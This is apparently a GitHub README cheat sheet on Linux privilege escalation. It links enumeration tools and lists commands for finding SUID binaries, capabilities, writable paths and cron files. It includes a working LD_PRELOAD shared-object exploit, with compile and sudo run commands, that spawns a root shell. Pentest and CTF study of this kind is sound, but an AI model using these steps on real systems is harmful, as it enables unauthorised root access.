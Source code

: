 # Privilege-Escalation
Bypass security restrictions in misconfigured systems.
List of Tools and Repositories 👇🏻

## For Linux

**LinPeas** - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

**LinEnum** - https://github.com/rebootuser/LinEnum

**LES (Linux Exploit Suggester)** - https://github.com/mzet-/linux-exploit-suggester

**Linux Smart Enumeration** - https://github.com/diego-treitos/linux-smart-enumeration

**Linux Priv Checker** - https://github.com/linted/linuxprivchecker 

**GTFOBins** - https://gtfobins.github.io/ ⭐

**To list all the files which have SUID and SGID bits set**
```
find / -type f -perm -04000 -ls 2>/dev/null
```

**Using *LD_Preload***
> This piece of code will spawn root shell ➡️ [shell.c](https://github.com/Somchandra17/Privilege-Escalation/blob/01f889492ff51414fa077a01fa538ecd5a0d4543/shell.c)
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
> Compile it using GCC into a Shared Object file(.so)
```
gcc -fPIC -shared -o shell.so shell.c -nostartfile
```
> Run it by using LD_Preload option  
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
**Linux Privilege Escalation exploiting Sudo Rights — Part I** - https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d

**Abusing 'find', 'vim' and 'awk' for root access** - https://www.andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/

**Through Capabilities**
> List all enabled Capabilities
```
getcap -r / 2>/dev/null
```
> If you find any set capabilities then use GTFOBins and search your Binary name - https://gtfobins.github.io/#+capabilities

**Cron job configurations**
> Anyone can read the file cron jobs under 👇🏻
```
/etc/crontab
```
**Using $PATH**
> list the PATH by ``echo $PATH``

> find for writable path ``find / -writable 2>/dev/null`` or clean -> `` find / -writable 2>/dev/null | cut -d "/" -f2 | sort -u ``

> If able to modify the $PATH then ``export PATH=/DIR:$PATH`` (make sure to change the DIR)

now we have the required directory listed in out $PATH then we can just create a Script to exploit it 
For example 👉🏻 [path.c](path.c)
